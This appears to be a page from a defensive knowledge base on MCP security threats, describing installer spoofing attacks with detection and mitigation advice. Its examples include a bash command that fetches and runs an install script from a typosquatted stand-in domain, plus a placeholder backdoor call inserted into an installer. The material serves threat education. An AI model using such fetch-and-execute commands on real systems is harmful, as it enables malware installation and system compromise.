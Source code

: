 ```yaml
---
layout: default
title: "Installer Spoofing"
permalink: /ttps/supply-chain/installer-spoofing/
nav_order: 4
parent: "Supply Chain & Dependencies"
grand_parent: "MCP Security TTPs"
---
```


# Installer Spoofing

**Category**: Supply Chain & Dependencies  
**Severity**: High  

## Description

Fake or malicious MCP installers that compromise systems during installation, enabling attackers to gain system access through deceptive installation processes.

## Technical Details

### Attack Vector
- Fake installer distribution
- Malicious installer creation
- Installer modification
- Installation process compromise

### Common Techniques
- Installer impersonation
- Malicious installer creation
- Installer backdooring
- Installation hijacking

## Impact

- **System Compromise**: Malicious code execution during installation
- **Persistent Access**: Long-term system access through installer
- **Data Theft**: Access to system data during installation
- **Privilege Escalation**: Administrative access through installer

## Detection Methods

### Installer Analysis
- Analyze installer integrity
- Verify installer signatures
- Monitor installer behavior
- Detect malicious installers

### Installation Monitoring
- Monitor installation processes
- Track installer activities
- Detect suspicious behavior
- Analyze installation patterns

## Mitigation Strategies

### Installer Verification
- Verify installer authenticity
- Use digital signatures
- Implement installer validation
- Monitor installer sources

### Installation Security
- Use secure installation processes
- Implement installation monitoring
- Deploy installer sandboxing
- Monitor installation behavior

## Real-World Examples

### Example 1: Fake Installer
```bash
# Legitimate installer
curl -O https://official-mcp.com/install.sh
bash install.sh

# Malicious installer
curl -O https://0fficial-mcp.com/install.sh  # Typosquatting domain
bash install.sh  # Executes malware
```

### Example 2: Installer Backdooring
```python
# Legitimate installer code
def install_mcp_server():
    download_packages()
    configure_server()
    start_service()

# Backdoored installer
def install_mcp_server():
    download_packages()
    configure_server()
    # Malicious backdoor
    install_backdoor()
    start_service()
```

### Example 3: Installation Hijacking
```bash
# Legitimate installation
sudo ./mcp-installer

# Malicious hijacking
# Attacker replaces installer with malicious version
sudo ./mcp-installer  # Executes malicious code with sudo privileges
```

## References & Sources

- **Academic Paper** - "Model Context Protocol (MCP): Landscape, Security Threats, and Future Research Directions"

## Related TTPs

- [Malicious MCP Packages](malicious-mcp-packages.md)
- [Typosquatting](typosquatting.md)
- [Supply Chain Attacks](supply-chain-attacks.md)

---

*Installer spoofing attacks exploit the trust users place in installation processes to compromise systems during software installation.*
